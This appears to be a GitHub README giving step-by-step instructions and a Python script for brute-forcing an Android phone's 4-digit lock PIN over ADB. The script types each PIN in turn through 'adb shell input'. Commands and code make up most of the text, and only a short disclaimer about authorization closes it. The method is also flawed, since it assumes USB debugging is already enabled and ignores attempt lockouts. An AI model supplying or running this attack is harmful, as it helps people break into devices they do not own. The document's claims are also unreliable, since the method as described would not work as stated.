# unlock-mobil-using-ADB
This is the step-by-step process for attempting a brute force attack using Kali Linux:

1. **Install Required Tools**: Make sure you have ADB (Android Debug Bridge) installed on your Kali Linux system. If not, install it using the following command:
   
   ```
   sudo apt-get install android-tools-adb
   ```

2. **Connect the Phone**: Connect the Android phone to your Kali Linux machine via USB.

3. **Enable ADB Debugging**: On the Android phone, go to Settings > Developer Options (if available) and enable USB debugging. If Developer Options is not visible, go to About Phone and tap on the Build Number multiple times until it says you are now a developer. Then go back to Settings and you should see Developer Options.

4. **Check Connection**: Verify that your Android device is recognized by your computer by running the following command:
   
   ```
   adb devices
   ```

5. **Run Brute Force Script**: You can create a simple script to automate the brute force attack. Here's a basic example in Python:

   ```python
   import itertools
   import subprocess

   PIN_LENGTH = 4
   PIN_RANGE = range(0, 10)

   for pin in itertools.product(PIN_RANGE, repeat=PIN_LENGTH):
       pin_str = ''.join(map(str, pin))
       command = f'adb shell input text {pin_str} && adb shell input keyevent 66'
       subprocess.run(command, shell=True)
   ```

   Save this script as `brute_force.py` and execute it using the following command:

   ```
   python3 brute_force.py
   ```

   This script will attempt all possible combinations of 4-digit PINs.

6. **Monitor Progress**: Monitor the output of the script to see if it successfully unlocks the phone. You might also want to physically check the phone's screen periodically.

Remember to use this method responsibly and only on devices for which you have proper authorization. Unauthorized access to devices is illegal and unethical.
